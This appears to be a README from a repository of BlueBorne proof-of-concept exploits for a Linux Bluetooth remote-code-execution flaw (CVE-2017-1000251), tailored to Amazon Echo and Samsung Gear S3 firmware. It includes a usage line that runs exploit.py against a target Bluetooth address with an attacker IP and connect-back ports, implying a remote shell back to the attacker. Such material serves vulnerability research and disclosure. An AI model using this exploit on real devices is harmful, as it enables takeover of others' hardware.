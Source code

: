 BlueBorne Linux RCE Exploits
=============================

This directory contains a PoC code for the Linux-RCE vulnerability (CVE-2017-1000251).
The exploits are specifically tailored for specific fw images of two devices: The Amazon Echo and Samsung Gear S3.

To run (either exploit script, found under the relavant device dir):

    sudo python2 exploit.py <src-hci> <target-bdaddr> <attacker-ip> (optional-connectback-port1=1234) (optional-connectback-port2=1235)

IP needs to be accessible from the victim (should be the IP of the machine that runs the exploit)


